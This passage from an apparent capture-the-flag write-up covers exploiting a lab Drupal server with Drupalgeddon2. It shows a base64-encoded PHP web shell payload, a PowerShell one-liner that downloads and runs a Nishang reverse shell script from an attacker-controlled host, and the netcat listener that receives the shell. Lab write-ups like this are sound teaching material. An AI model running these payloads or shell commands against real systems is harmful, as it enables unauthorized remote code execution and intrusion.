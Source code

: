     [*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./sites/default/s.php
    [+] Result : [{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"A0vSSq_CrSQFs5fhTMcTp4kmAIPC3kngzkEoGUcfU68"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"A0vSSq_CrSQFs5fhTMcTp4kmAIPC3kngzkEoGUcfU68"}}}]
    [!] Target is NOT exploitable. No write access here!
    [*] Testing: File Write To Web Root (./sites/default/files/)
    [*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./sites/default/files/s.php
    [+] Result : [{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"ihPSnSsmU8uU3SKBtuN2qCcnNQA1Ha9CqKpMiVhINfs"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"ihPSnSsmU8uU3SKBtuN2qCcnNQA1Ha9CqKpMiVhINfs"}}}]
    [!] Target is NOT exploitable. No write access here!
    --------------------------------------------------------------------------------
    [!] FAILED to find writeable folder
    [*] Dropping back to ugly shell...
    drupalgeddon2>> whoami
    nt authority\iusr
    

It turns out there’s also an [updated
version](https://github.com/dreadlocked/Drupalgeddon2) on GitHub, and it works
out of the box (and doesn’t print some annoying debug information).

#### Shell - Nishang

I can upgrade this to a [Nishang](https://github.com/samratashok/nishang)
shell by grabbing a copy of `Invoke-PowerShellTcp.ps1`, adding a call to the
function to the end, `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14
-Port 443`, and then serving that directory with `python3 -m http.server 80`.
I’ll also open a `nc` listener on port 443.

Then I give this command to the Drupalgeddon2 shell:

    
    
    drupalgeddon2>> powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/shell.ps1')
    

My `python` webserver gets the request for `shell.ps1` and sends it:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.9 - - [07/Mar/2019 08:35:14] "GET /shell.ps1 HTTP/1.1" 200 -
    

When `shell.ps1` is run, it loads all the functions, and then invokes the
reverse shell to me on port 443, which I get in `nc`:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.9.
    Ncat: Connection from 10.10.10.9:59199.
    Windows PowerShell running as user BASTARD$ on BASTARD
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    